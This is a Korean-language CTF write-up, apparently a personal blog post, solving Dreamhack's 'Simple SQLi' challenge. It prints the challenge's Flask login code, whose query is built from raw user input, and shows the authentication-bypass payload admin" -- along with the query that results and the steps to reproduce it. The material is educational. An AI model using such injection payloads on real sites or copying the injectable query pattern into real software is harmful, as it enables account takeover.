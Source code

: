 ```yaml
---
title: "[CTF] 드림핵 Simple SQLi"
date: 2025-09-18 21:00:00 +0900
categories: [CTF, Web]
tags: [CTF, SQLi]
description: "드림핵 Simple SQLi"
author: "송지민"
toc: true
---
```


## 문제 개요
이번 문제는 로그인 기능이 있는 간단한 웹앱으로, 입력값을 그대로 SQL 쿼리에 삽입하는 구조였다. 딱 봐도 기본적인 SQL 인젝션(SQLi)이 가능해 보였다.

- `/login` : POST로 받은 `userid`, `userpassword`를 이용해 다음과 같은 쿼리를 수행한다.  
  ```sql
  select * from users where userid="{userid}" and userpassword="{userpassword}"
  ```
- 쿼리 결과에서 `userid == 'admin'`이면 FLAG를 반환한다.

아래는 문제에서 제공된 **원본 소스코드 전체**다.

```python
#!/usr/bin/python3
from flask import Flask, request, render_template, g
import sqlite3
import os
import binascii

app = Flask(__name__)
app.secret_key = os.urandom(32)

try:
    FLAG = open('./flag.txt', 'r').read()
except:
    FLAG = '[**FLAG**]'

DATABASE = "database.db"
if os.path.exists(DATABASE) == False:
    db = sqlite3.connect(DATABASE)
    db.execute('create table users(userid char(100), userpassword char(100));')
    db.execute(f'insert into users(userid, userpassword) values ("guest", "guest"), ("admin", "{binascii.hexlify(os.urandom(16)).decode("utf8")}");')
    db.commit()
    db.close()

def get_db():
    db = getattr(g, '_database', None)
    if db is None:
        db = g._database = sqlite3.connect(DATABASE)
    db.row_factory = sqlite3.Row
    return db

def query_db(query, one=True):
    cur = get_db().execute(query)
    rv = cur.fetchall()
    cur.close()
    return (rv[0] if rv else None) if one else rv

@app.teardown_appcontext
def close_connection(exception):
    db = getattr(g, '_database', None)
    if db is not None:
        db.close()

@app.route('/')
def index():
    return render_template('index.html')

@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'GET':
        return render_template('login.html')
    else:
        userid = request.form.get('userid')
        userpassword = request.form.get('userpassword')
        res = query_db(f'select * from users where userid="{userid}" and userpassword="{userpassword}"')
        if res:
            userid = res[0]
            if userid == 'admin':
                return f'hello {userid} flag is {FLAG}'
            return f'<script>alert("hello {userid}");history.go(-1);</script>'
        return '<script>alert("wrong");history.go(-1);</script>'

app.run(host='0.0.0.0', port=8000)
```

---

## 내가 실제로 푼 방법 (풀이 기록 — 블로그용 서술 방식)
소스코드를 확인하자마자 SQL 인젝션 포인트가 뻔히 보였다.

```sql
select * from users where userid="{userid}" and userpassword="{userpassword}"
```

조건에서 `userid == 'admin'`일 때 FLAG를 주기 때문에, admin 계정이 존재함을 알 수 있다. 그렇다면 `userid` 입력에 `"--`를 사용해 뒤를 주석 처리하면 쉽게 우회할 수 있다.

### 내가 사용한 입력값
- `userid`:  
  ```
  admin" --
  ```
- `userpassword`:  
  ```
  아무거나
  ```

### 최종 실행된 쿼리
```sql
select * from users where userid="admin" -- " and userpassword="아무거나"
```

이 구문은 뒤가 주석 처리되면서 단순히:
```sql
select * from users where userid="admin"
```
으로 축약된다.

결과적으로 admin 사용자의 데이터가 반환되고, FLAG를 획득할 수 있었다.

---

## 재현 흐름 (짧게)
1. 공격자: `/login`에서 userid에 `admin" --`, pw에 아무 값 입력  
2. 서버: 최종 쿼리는 `select * from users where userid="admin"`  
3. 쿼리 결과 admin 계정 반환  
4. 조건문 `if userid == 'admin'` → FLAG 출력  
5. 공격자: FLAG 확인 성공

---

## 왜 이게 가능했나 (한 줄)
입력값을 이스케이프 없이 그대로 SQL 문자열에 삽입하여 기본적인 SQLi가 발생했기 때문이다.

---

## 마무리(짧게)
simple_sqli 문제는 정말 기본적인 SQL 인젝션 예제였다. 가장 전형적인 `"--` 주석 처리 기법으로 admin 계정에 접근해 FLAG를 획득했다.
